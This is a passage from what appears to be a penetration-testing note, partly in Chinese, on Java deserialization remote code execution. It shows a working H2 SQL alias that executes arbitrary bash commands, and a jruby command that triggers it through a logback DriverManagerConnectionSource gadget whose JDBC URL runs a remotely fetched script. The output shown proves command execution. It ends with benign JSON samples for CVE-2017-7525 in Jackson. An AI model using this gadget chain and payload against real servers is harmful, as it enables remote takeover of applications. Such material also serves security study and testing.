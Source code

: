 ```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
    String[] command = {"bash", "-c", cmd};
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\A");
    return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('id > exploited.txt')
```

然后通过如下方式运行RCE：

```bash
$ jruby test.rb "["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]"

$ cat exploited.txt
uid=501(...) gid=20(staff) groups=20(staff),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),501(access_bpf),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)
```

---


# CVE-2017-7525 - Jackson RCE


```java

// JSON -> java object

// There are a couple of ways to use Jackson
// perform a binding to a single object,
// pulling the values from the JSON
// and setting the properties on the associated Java object.
// This is simple, straightforward, and likely not exploitable.
{
  "name" : "Bob", "age" : 13,
  "other" : {
     "type" : "student"
  }
}


// you are create arbitrary objects, and you will see their class name in the JSON document.
// If you see this, it should raise an immediate red flag.
// Here’s a sample of what these look like:
{
  "@class":"MyApp.Obj",
  val:[
    "java.lang.Long",
    1
  ]
}

```
